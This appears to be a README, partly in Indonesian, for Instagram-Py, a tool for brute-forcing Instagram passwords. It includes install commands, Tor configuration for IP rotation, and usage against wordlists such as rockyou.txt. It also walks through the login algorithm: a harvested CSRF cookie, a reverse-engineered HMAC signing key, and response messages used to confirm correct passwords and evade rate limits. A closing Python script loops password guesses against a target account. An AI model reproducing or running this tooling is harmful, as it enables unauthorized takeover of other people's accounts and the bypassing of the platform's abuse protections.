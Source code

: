 Instalasi Upgrading Instagram-Py dengan pip

$ sudo pip3 install instagram-py --upgrade $ sudo easy_install3 -U pip # you have to install python3-setuptools , update pip $ sudo pip3 install requests --upgrade $ sudo pip3 install requests[socks] $ sudo pip3 install stem $ sudo pip3 install instagram-py $ instagram-py # installed sukses $ instagram-py --create-configuration Configuring Instagram-Py

$ instagram-py --create-configuration $ # OR $ instagram-py -cc

$ instagram-py --create-configuration --default-configuration $ # OR $ instagram-py -cc -dc

Configuring Tor server to open control port

open your tor configuration file usually located at /etc/tor/torrc

$ sudo vim /etc/tor/torrc # open it with your text editor

search for the file for this specific section

The port on which Tor will listen for local connections from Tor
controller applications, as documented in control-spec.txt.
#ControlPort 9051

uncomment 'ControlPort' by deleting the # before 'ControlPort' , now save the file and restart your tor server

now you are ready to crack any instagram account , make sure your tor configuration matched ~/instapy-config.json Usage

Finally , now you can use instagram-py!

Instagram-Py Scripting lets you run Custom Python Scripts Inside Instagram-Py!

Never Run Instagram-Py with Multiple Instance! , Use Instagram-Py Scripting Instead!

$ instagram-py -u your_account_username -pl path_to_password_list

Note: Without the -c optional argument , instagram-py will not continue the attack

usage: instagram-py [-h] [--username USERNAME] [--password-list PASSWORD_LIST] [--script SCRIPT] [--inspect-username INSPECT_USERNAME] [--create-configuration] [--default-configuration] [--countinue] [--verbose]

optional arguments: -h, --help show this help message and exit --username USERNAME, -u USERNAME username for Instagram account --password-list PASSWORD_LIST, -pl PASSWORD_LIST password list file to try with the given username. --script SCRIPT, -s SCRIPT Instagram-Py Attack Script. --inspect-username INSPECT_USERNAME, -i INSPECT_USERNAME Username to inspect in the instagram-py dump. --create-configuration, -cc Create a Configuration file for Instagram-Py with ease. --default-configuration, -dc noconfirm for Instagram-Py Configuration Creator! --countinue, -c Countinue the previous attack if found. --verbose, -v Activate Verbose mode. ( Verbose level )

example: instagram-py -c -vvv -u instatestgod__ -pl rockyou.txt

Report bug, suggestions and new features at https://github.com/awanvenom/bobol_ig

Instagram-Py Scripting

Instagram-Py now lets you run your custom scripts inside of it for maximum customization of your attacks. This Scripts are simple Python Scripts ( You Can just do anything that is possible with python )

You Can Always View the Cracked Passwords Using this command!

$ instagram-py -i instatestgod__ $ # Displays record if it is cracked in the past!

Algorithm

Instagram-Py uses a very simple algorithm for checking passwords efficiently , this section is dedicated for those who wish to recreate this program in any other language.

You can see this live when you run the tool in max verbosity

$ instagram-py -vvv -u instatestgod__ -pl password_list.lst

You can also use Instagram-Py as a module , so that you can also use it in your script What we do

Step 1: Get the magic cookie , which is used to verify device integrity!

Getting the magic cookie is the simplest job , all we need to do is send a get request to https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid= , where the guid get parameter is a random 32 character string. The random 32 character string can be generator using python's simple uuid library , to be specific v4 of UUID. So finally we just have to request the url https://i.instagram.com/api/v1/si/fetch_headers/?challenge_type=signup&guid=800e88b931bf491fa3b4a7afa4e679eb and get the cookie named csrftoken , if we observe the response header we could see that our cookie only expires next year the same day. So by this we only have to make this request once and can use it for a year! How vulnerable is that?...

Step 2: Build a post request with Instagram's signature.

This part is simple but may be difficult to setup , first i need to get instagram's signature which is only present in their free apk from google play , Remember our Strength can be our Weakness , All i have to do reverse engineer the apk and find the signature, lets call it ig_sig.

ig_sig = 4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178 ig_version = 4

Instagram uses HMAC Authentication for login stuff, so lets use python's hmac library. But first we have to build our body which will be encoded in json for it to actually sign with ig_sig , So the post body looks likes this...

phone_id = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS> _csrftoken = <THE MAGIC COOKIE THAT WE GOT!> username = guid = <RANDOM 32 CHARACTER STRING SEPERATED WITH - on EQUAL INTERVALS> device_id = android-<RANDOM 16 CHARACTER STRING> password = login_attempt_count = 0

The above will be encoded to JSON , So to test the password we have to post the data to this url https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=. .

: using HMAC , sign our json encoded data with ig_sig and return a hexa value.

: the same data in json but we url encode so that it goes properly to insta!

So to test a account with username as USERNAME and password with PASSWORD we simply request this url https://i.instagram.com/api/v1/accounts/login/ig_sig_key_version=4&signed_body=bc90e1b7d430f39152e92b4e7d517bfb231dbe0515ed2071dc784cf876e301c3.%7B%22phone_id%22%3A%20%2232abb45c-f605-4fd7-9b5e-674115516b90%22%2C%20%22_csrftoken%22%3A%20%22PyMH2niVQrk41UIBW0lKilleG7GylluQ%22%2C%20%22username%22%3A%20%22USERNAME%22%2C%20%22guid%22%3A%20%2267ca220c-a9eb-4240-b173-2d253808904d%22%2C%20%22device_id%22%3A%20%22android-283abce46cb0a0bcef4%22%2C%20%22password%22%3A%20%22PASSWORD%22%2C%20%22login_attempt_count%22%3A%20%220%22%7D

Step 3: With the json response and response code , we determine the password is correct or wrong.

if We get response 200 then the login is success but if we get response 400 , We inspect the json data for clues if it is the correct password or invalid request or too many tries. So we inspect the message from instagram json response!

Message = Challenge Required , then the password is correct but instagram got some questions so we must wait until the user logs in and answer the question and if we are lucky they will not change the password and we could login in later(Most of the time people won't change the password!)

Message = The password you entered is incorrect. , then the password is incorrect for sure , try another.

Message as something like word invalid in it then , some other error so just try again, can happen because of wordlist encoding error which i ignored because all the worldlist have encoding error!

Message = Too many tries , Time to change our ip and loop but we don't want to change our magic cookie

Contribute anything you can to this repo (Issues | Pull request) , help is much appreciated.

Please Refer CONTRIBUTING for more information on contributing!

Using Instagram-Py as API

Instagram-Py supports to be used as a module as of v1.3.2 , so you don't want to reproduce my code. Just use it!

For some reason you wish not to use my software then you can use my software as a module and embed into your own software , anyway its native so its just gonna run the same as the official command-line tool unless you do something crazy.

Follow the same installation method mentioned above to install Instagram-Py API.

This is a simple script to conduct a bructe force attack using instagram-py as a API.

#!/usr/bin/env python3 ''' This is the same thing that is in the init file of the command-line tool. ''' from InstagramPy.InstagramPyCLI import InstagramPyCLI from InstagramPy.InstagramPySession import InstagramPySession , DEFAULT_PATH from InstagramPy.InstagramPyInstance import InstagramPyInstance from datetime import datetime

username = "TARGET ACCOUNT USERNAME" password = "PASSWORD LIST PATH"

appInfo = { "version" : "0.0.1", "name" : "Instagram-Py Clone", "description" : "Some Module to crack instagram!", "author" : "YourName", "company" : "YourCompany", "year" : "2017", "example" : "" }

cli = InstagramPyCLI(appinfo = appInfo , started = datetime.now() , verbose_level = 3)

'''

USE THIS IF YOU WANT
cli.PrintHeader() cli.PrintDatetime() ''' session = InstagramPySession(username , password , DEFAULT_PATH , DEFAULT_PATH , cli) session.ReadSaveFile(True) # True to countinue attack if found save file. '''

USE THIS IF YOU WANT
cli.PrintMagicCookie(session.magic_cookie) '''

''' Defining @param cli = None will make Instagram-Py run silently so you can you use your own interface if you like. or if you want to use the official interface then declare like this

instagrampy = InstagramPyInstance(cli = cli , session = session)

'''

instagrampy = InstagramPyInstance(cli = None ,session = session) while not instagrampy.PasswordFound(): print('Trying... '+session.CurrentPassword()) instagrampy.TryPassword()

if instagrampy.PasswordFound(): print('Password Found: '+session.CurrentPassword())

exit(0)
